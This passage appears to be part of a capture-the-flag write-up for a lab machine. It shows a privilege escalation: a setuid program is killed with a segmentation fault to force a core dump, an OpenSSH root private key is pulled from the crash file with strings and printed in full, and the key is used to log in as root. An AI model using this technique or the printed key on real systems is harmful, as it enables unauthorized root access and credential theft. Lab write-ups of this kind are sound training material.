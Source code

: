 ```bash
Total lines      = 39
Save results a file? [y/N]: ^Z
[1]+  Stopped                 ./count
dasith@secret:/opt$ ps -ef | grep count
root         783       1  0 13:11 ?        00:00:00 /usr/lib/accountsservice/accounts-daemon
dasith     96640   32354  0 15:12 pts/0    00:00:00 ./count
dasith     96644   32354  0 15:12 pts/0    00:00:00 grep --color=auto count
dasith@secret:/opt$ kill -11 96640
dasith@secret:/opt$ fg
./count
Segmentation fault (core dumped)
```
It dumped now go to `/var/crash/_opt_count.1000.crash`and read the `coredump` with strings
```bash
strings Coredump



-----BEGIN OPENSSH PRIVATE KEY-----
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
-----END OPENSSH PRIVATE KEY-----
```
Copy this and save it to file for connection on `ssh`
```bash
nvim root_id_rsa
chmod 600 root_id_rsa
ssh -i root_id_rsa root@10.10.11.120
root@secret:~# pwd
/root
```